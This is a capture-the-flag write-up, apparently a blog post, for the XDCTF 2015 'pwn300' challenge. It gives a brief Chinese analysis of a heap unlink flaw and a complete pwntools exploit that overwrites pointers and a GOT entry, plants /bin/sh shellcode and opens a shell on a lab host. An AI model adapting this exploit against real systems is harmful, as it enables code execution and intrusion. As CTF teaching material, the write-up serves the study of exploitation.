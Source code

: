 ```yaml
---  
layout: post  
title: "xdctf-pwn300"  
date: 2015-10-05 12:42:17 +0800  
comments: true  
categories:   
---  
```

###0x00 分析  
程序模拟了堆，可以unlink  
  
	  v2 = a1 - 16;  
	    now_len = *(_DWORD *)(a1 - 16 + 4);  
	    now_next = *(_DWORD *)(a1 - 16 + 8);  
	    if ( now_next )  
	      *(_DWORD *)(now_next + 4) = now_len;      // next加4指向的内容等于now_len  
	    if ( now_len )  
	      *(_DWORD *)(now_len + 8) = now_next;      // len加8指向的内存等于now_next  
	    *(_DWORD *)(v2 + 4) = *(_DWORD *)(addr_sbrk + 4);// len=addr_sbrk+4  
  
  
sbrk zone looks like  
  
	|size	|next	|last  
	last is remain space  
solution is  
m1  
m2  
m3  
m4  
e4	/bin/sh  
e1  
payload  = 'a'*116  
payload += addr-4  
payload += addr  
  
  
###0x01 exp  
  
	from pwn import *  
  
	r = remote('192.168.56.102', 6666)  
	#r = process('./pwn300')  
  
	numofgirls = 0x804b04c  
	buf = 0x804B060  
	exit_got = 0x0804B01C  
  
  
	def add():  
		print r.recvuntil("Your Choice:")  
		r.sendline('1')  
		print r.recvuntil("Give the type of the Girl:")  
		r.sendline('0')  
	def edit(id, type, text):  
		print r.recvuntil("Your Choice:")  
		r.sendline('3')  
		print r.recvuntil("Give the Girl id to edit:")  
		r.sendline(str(id))  
		print r.recvuntil("Give the type to edit:")  
		r.sendline(str(type))  
		print r.recvuntil("Give your Girl:")  
		r.sendline(text)  
	def dele(id):  
		print r.recvuntil("Your Choice:")  
		r.sendline('2')  
		print r.recvuntil("Give the Girl id to delete:")  
		r.sendline(str(id))  
	def show(id):  
		print r.recvuntil("Your Choice:")  
		r.sendline('4')  
		print r.recvuntil("Give the Girlid to print:")  
		r.sendline(str(id))  
		data = r.recvuntil("Let")  
		print data  
		return data[1:-3]  
		  
  
	def write_addr(address, cont):  
		add()  
		add()  
		add()  
		add()  
		  
		addr = 0x0804B058  
		payload  = 'a'*116	#unlink change bss  
		payload += p32(addr)  
		payload += p32(addr+4)  
		edit(0, 1, payload)  
		dele(1)  
  
		payload  = 'bbbb'  
		payload += p32(address)  
		payload += p32(numofgirls)  
		edit(0, 0, payload)  
		payload  = cont  
		edit(0, 0, payload)  
		edit(1, 0, '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00')  
  
	shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  
	shellcode_addr = 0x804b0a0  
  
	write_addr(shellcode_addr , shellcode)  
	write_addr(exit_got, p32(shellcode_addr))  
  
	r.interactive()  
  
  
